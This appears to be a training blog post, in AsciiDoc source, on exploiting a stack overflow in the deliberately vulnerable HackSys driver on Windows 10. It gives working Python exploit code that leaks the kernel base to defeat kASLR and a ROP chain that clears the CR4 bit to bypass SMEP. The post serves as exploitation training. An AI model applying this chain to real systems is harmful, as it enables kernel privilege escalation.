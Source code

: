 :slug: hevd-smep-bypass/
:date: 2020-09-18
:category: attacks
:subtitle: Bypassing SMEP
:tags: osee, training, exploit, windows, kernel, hevd
:image: cover.png
:alt: Photo by Basil James on Unsplash
:description: In this article we will defeat some protections using several techniques for exploting HackSys Extremely Vulnerable Driver
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/iC4BsZQaREg

= HEVD: kASRL + SMEP Bypass

During the last posts, we've been dealing with exploitation in Windows
Kernel space. We are using
link:https://github.com/hacksysteam/HackSysExtremeVulnerableDriver[HackSys Extremely Vulnerable Driver]
or `HEVD` as the target which is composed of several vulnerabilities to let
practitioners sharpen the Windows Kernel exploitation skills.

In the last link:../hevd-dos/[post], we successfully created a DoS exploit
leveraging a stack overflow vulnerability in `HEVD`. The DoS ocurred because
we placed an arbitrary value on `EIP` (`41414141`) and when the OS tried
to access that memory address, it was not accessible.

In this article, we will use that ability to overwrite `EIP` to execute code
in privileged mode.

During the exploitation process, we will come across with Supervisor Mode
Execution Prevention or `SMEP` which will thwart our exploit. But fear not:
we will be able to bypass it.

== Local vs Remote exploitation

When we were exploiting link:../tags/vulnserver/[Vulnserver], we were
doing remote exploitation to a user-space application. That kind of
environment has certain specific restrictions, the most notorious are
limited buffer space to insert our payload, character restrictions and
`ASLR` (Address Space Layout Randomization).

When we are exploiting the Windows Kernel, it is assumed that we already
have unprivileged local access to the target machine. In that environment,
those restrictions are not longer a major issue. For example, the buffer
space problem and character restrictions are easily circumvented by
allocating dynamic memory with `VirtualAlloc()`, moving the raw payload
to that buffer and overwriting `EIP` with the returned pointer.

`ASLR` and `kASLR` (Kernel `ASLR`) is not an issue either, because it works
by randomizing the base memory of the modules at every restart, but if we have
local access, there are functions in the Windows API that will reveal the
current base address.

However, other protections come to scene when trying to exploit at kernel
level, like `DEP`, `SMEP`, `CFG`, etc. We will come across with some of them
surely later. Stay tuned.

== Stack Overflow exploitation

We left off our link:../hevd-dos/[previous article] performing a DoS to
the target machine, on where we used the following exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/web/blog/hevd-smep-bypass/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And we were able to overwrite EIP with the value `41414141`. If we are going
to perform something more meaningful, we must start by locating the exact
offset on which `EIP` is overwritten. Just like on any other user-space
exploitation process, we can create a cyclic pattern to find that offset.
We can use `mona` to do that:

image::mona1.gif[Mona Cyclic Pattern]

Then, update our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/web/blog/hevd-smep-bypass/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003

PAYLOAD = (
    b'<insert pattern here>'
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And check it:

image::mona2.gif[Mona Cyclic Pattern]

Good, `mona` discovered that EIP gets overwritten starting at byte `2080`.

Now, for illustration purposes, we'll create a simple shellcode to
make `EAX = 0xdeadbeef`. Then, we must copy it in a dynamic generated
location created by `VirtualAlloc()`. The return value of `VirtualAlloc()` is
a pointer that will be placed starting at byte 2081 of our buffer to divert
the execution flow to our shellcode.

Let's update our exploit with that:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/web/blog/hevd-smep-bypass/
"""

import struct
from ctypes import windll, c_int
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003

SHELLCODE = (
    b'\xb8\xef\xbe\xad\xde' +     # mov eax,0xdeadbeef
    b'\xcc'                       # INT3 -> software breakpoint
)

RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

PAYLOAD = (
    b'A' * 2080 +
    struct.pack('<L', RET_PTR)
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

If everything comes as expected, `EAX` will have the value `0xdeadbeef` and
execution will pause at the inserted breakpoint `\xcc`. Let's check it:

image::smep1.gif[SMEP in action]

Ouch!

Our exploit was thwarted and the error `ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY`
was triggered when the first instruction of our shellcode was trying to
execute. That means that `SMEP` did protect the kernel.

== SMEP: Supervisor Mode Execution Prevention

There's a concept called
link:https://en.wikipedia.org/wiki/Protection_ring[Protection rings] which
is used by operating systems to delimit capabilities and provide
fault tolerance, by defining levels of privileges. Windows OS versions
uses only 2 Current Privilege Levels (`CPL`): 0 and 3. `CPL` levels are also
referred as `rings`. `CPL0` or `ring-0` is where the kernel is executed
and `CPL3` or `ring-3` is where user mode instructions are performed.

`SMEP` is a protection introduced at CPU-level which prevents the kernel
to execute code belonging to `ring-3`.

The `ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY` exception was triggered
because `HEVD` is executing at `ring-0` and our shellcode was allocated at
`ring-3`.

Technically, `SMEP` is nothing but a bit in a CPU control register,
specifically the 20th bit of the `CR4` control register:

image::cr4.png[CR4 register]

To bypass `SMEP`, we must flip that bit (make it `0`). As can be seen,
the current value of `CR4` with `SMEP` enabled is `001406e9`. Let's check
what would be the value after flipping the 20th bit:

image::cr42.png[CR4 register]

It would be `000406e9`. We need to place that value on `CR4` to turn off
`SMEP`.

But, how can we do that if we are not allowed to execute instructions at
`ring-3`? link:../bypassing-dep/[ROP] comes to the rescue! We need to execute
a `ROP` chain with instructions that are already in kernel mode. At `ring-0`
`ROP` is often referred as `kROP`. We then need to execute a `kROP` chain
and change the value of `CR4`. With that, we should be able to make
`EAX = 0xdeadbeef`.

In `nt!KeFlushCurrentTb`, we find a gadget that sets `CR4` from whatever
value `EAX` may have: `mov cr4, eax # ret`

image::cr4-rop.png[CR4 ROP]

Now, we need to calculate the offset of that `ROP` gadget from the start
of the `nt` module:

image::offset1.png[CR4 ROP Offset]

The offset is `0011f8de`. We'll use that later.

Now we need to find a `pop eax # ret` gadget. We can find one at
`nt!_MapCMDevicePropertyToNtProperty+0x39`:

image::popeax-rop.png[POP EAX ROP]

And the offset from the start of the `nt` module is `0002bbef`:

image::offset2.png[POP EAX Offset]

We must remember to pad our `ROP` chain with 8 bytes because the overflowed
function epilog uses `ret 8` which will return to the value pointed by `ESP`
and then will pop 8 bytes from the stack:

image::rop-padding.png[ROP Padding]

With that, we can now disable `SMEP`!

== Defeating kASRL

We've got all the required information to create the `ROP` chain to disable
`SMEP`. However, we need to deal with kernel `ASRL`. As I mentioned before,
there are several functions that can be executed in user mode (`ring-3`) that
can give information of addresses at `ring-0`. The most used are
`NtQuerySystemInformation()` and `EnumDeviceDrivers()`. The later is the
simpler. With the following code, you can get the kernel base address:

[source,python]
----
import sys
from ctypes import windll, c_ulong, byref, sizeof

PSAPI = windll.psapi

def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]

BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')
----

And check it:

image::leak1.png[Kernel Base Address]

As you can see, it matches perfectly to the address reported by `WinDBG`:

image::leak2.png[Kernel Base Address]

With that, we can update our exploit, adding the `ROP` chain to disable `SMEP`,
using the offsets of the gadgets and the value returned from that function
to obtain absolute addresses, defeating `kASLR`!

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/web/blog/hevd-smep-bypass/
"""

import struct
import sys
from ctypes import windll, c_int, c_ulong, byref, sizeof
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
PSAPI = windll.psapi
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003


def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]


BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')

SHELLCODE = (
    b'\xb8\xef\xbe\xad\xde' +     # mov eax,0xdeadbeef
    b'\xcc'                       # INT3 -> software breakpoint
)

RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

ROP_CHAIN = (
    struct.pack('<L', BASE_ADDRESS + 0x0002bbef) +     #  pop eax # ret
    struct.pack('<L', 0x42424242) +                    #  Padding for ret 8
    struct.pack('<L', 0x42424242) +                    #
    struct.pack('<L', 0x000406e9) +                    #  Value to disable SMEP
    struct.pack('<L', BASE_ADDRESS + 0x0011f8de) +     #  mov cr4, eax # ret
    struct.pack('<L', RET_PTR)                         #  Pointer to shellcode
)

PAYLOAD = (
    b'A' * 2080 +
    ROP_CHAIN
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

Looks good. Now check it:

image::success1.gif[Success]

And this is the content of the `CR4` register:

image::smep-disabled.png[Success]

As you can see, we were able to disable `SMEP` and made `EAX = 0xdeadbeef`!

== Conclusions

In this post we were able to execute a shellcode which made `EAX = 0xdeadbeef`.
We also bypassed `SMEP` protection using a `kROP` chain and defeated `kASRL`
by leaking the kernel base address from `ring-3`.
However, we have still have to get a privileged shell on this system, which
will be covered in the next article.
